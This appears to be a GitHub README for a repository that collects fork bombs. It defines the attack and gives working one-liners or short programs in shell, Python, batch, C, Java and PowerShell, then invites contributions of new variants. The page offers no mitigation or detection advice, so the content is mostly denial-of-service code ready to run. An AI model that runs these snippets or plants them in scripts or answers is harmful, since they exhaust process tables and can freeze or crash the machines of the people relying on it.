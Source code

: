 # Fork Bombs Collection

A repository to list and explain various fork bomb commands across different programming languages.

## What is a Fork Bomb?

A fork bomb is a denial-of-service attack that exploits the `fork` system call to create a large number of processes, consuming system resources and potentially causing the system to crash or become unresponsive. Fork bombs are recursive processes that call themselves repeatedly, leading to an exponential growth in the number of processes.

## List of Fork Bombs

### Shell Fork Bomb

The classic shell fork bomb, often attributed to Jaromil, is a 13-character command that can bring a system to its knees within seconds:

```shell
:(){ :|:& };:
```


This command defines a function`:`that calls itself twice in the background,leading to a rapid increase in the number of processes.The function is then called,initiating the fork bomb.


### Python Fork Bomb

A simple Python fork bomb can be written using the`os.fork()`method:


```python
import os
while True:
    os.fork()
```


This script continuously forks new processes,eventually exhausting system resources.


### Batch File Fork Bomb

A basic fork bomb in a Windows batch file can be implemented as follows:


```batch
@echo off
:start
start %0
goto start
```


This script starts a new instance of itself in an infinite loop,leading to a rapid increase in the number of processes.


### C Fork Bomb

A simple C fork bomb can be written using the`fork()`system call:


```c
#include <unistd.h>
int main() {
    while (1) {
        fork();
    }
}
```


This program continuously forks new processes,eventually exhausting system resources.


### Java Fork Bomb

A Java fork bomb can be implemented using the`Runtime.exec()`method:


```java
public class ForkBomb {
    public static void main(String[] args) {
        while (true) {
            Runtime.getRuntime().exec(new String[]{"java", "-cp", System.getProperty("java.class.path"), "ForkBomb"});
        }
    }
}
```


This program continuously starts new instances of itself,leading to a rapid increase in the number of processes.


### PowerShell Fork Bomb

A PowerShell fork bomb can be implemented as follows:


```powershell
while ($true) {
    Start-Process powershell.exe -ArgumentList "-NoExit", "Get-ChildItem -Recurse C:"
    Invoke-Expression -Command 'while ($true) { Start-Process powershell.exe -ArgumentList "-NoExit", "Get-ChildItem -Recurse C:" }'
}
```


This script starts new instances of PowerShell in an infinite loop,leading to a rapid increase in the number of processes.


## Latest Updates

As of the latest updates,there have been several discussions and implementations of fork bombs in various languages.Some of the recent repositories include:


• A collection of fork bombs in different languages,updated on January 4,2024.

• A simple fork bomb with explanations and mitigation techniques,updated on February 16,2024.


## Contributing

Contributions are welcome!If you have a new fork bomb or an interesting variation,please feel free to open a pull request.Here are the steps to contribute:


• Fork this repository.

• Create a new branch:`git checkout -b feature-branch`.

• Commit your changes:`git commit -m "Add new fork bomb"`.

• Push to your branch:`git push origin feature-branch`.

• Open a pull request.


License

This project is licensed under the MIT License-see the [LICENSE](https://github.com/mowhn/ForkBombHub/blob/main/LICENSE) file for details.


---
